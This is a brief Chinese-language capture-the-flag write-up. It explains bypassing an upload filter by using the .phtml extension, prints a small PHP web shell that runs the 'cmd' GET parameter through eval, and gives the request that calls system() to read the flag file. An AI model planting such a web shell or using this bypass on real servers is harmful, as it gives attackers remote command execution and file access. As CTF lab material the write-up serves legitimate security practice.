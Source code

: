 有文件格式过滤，使用phtml格式上传php文件即可。

```php
<?php  
if (isset($_GET['cmd'])) {  
    $cmd = $_GET['cmd'];  
    eval($cmd); // 执行用户输入的命令  
}  
?>
```

上传后使用get方法传参cmd=system('cat ../flag.php');即可。